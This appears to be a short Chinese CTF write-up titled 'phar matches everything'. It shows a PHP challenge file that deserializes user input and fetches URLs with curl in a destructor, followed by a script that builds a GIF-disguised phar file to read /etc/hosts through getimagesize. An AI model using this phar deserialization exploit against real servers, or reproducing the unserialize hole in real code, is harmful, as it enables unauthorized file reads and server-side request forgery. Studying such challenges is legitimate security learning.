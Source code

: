 ## phar matches everything

**catchmime.php**

```php
<?php
class Easytest{
    protected $test;
    public function funny_get(){
        return $this->test;
    }
}
class Main {
    public $url;
    public function curl($url){
        $ch = curl_init();  
        curl_setopt($ch,CURLOPT_URL,$url);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
        $output=curl_exec($ch);
        curl_close($ch);
        return $output;
    }
 
    public function __destruct(){
        $this_is_a_easy_test=unserialize($_GET['careful']);
        if($this_is_a_easy_test->funny_get() === '1'){
            echo $this->curl($this->url);
        }
    }    
}
 
if(isset($_POST["submit"])) {
    $check = getimagesize($_POST['name']);
    if($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
    } else {
        echo "File is not an image.";
    }
}
?>
```

**getimagesize**也可使用**phar**协议

构造phar文件

```php
<?php
class Main {
    public $url = 'file:///etc/hosts';
}

$main = new Main();
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
$phar->setMetadata($main); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```
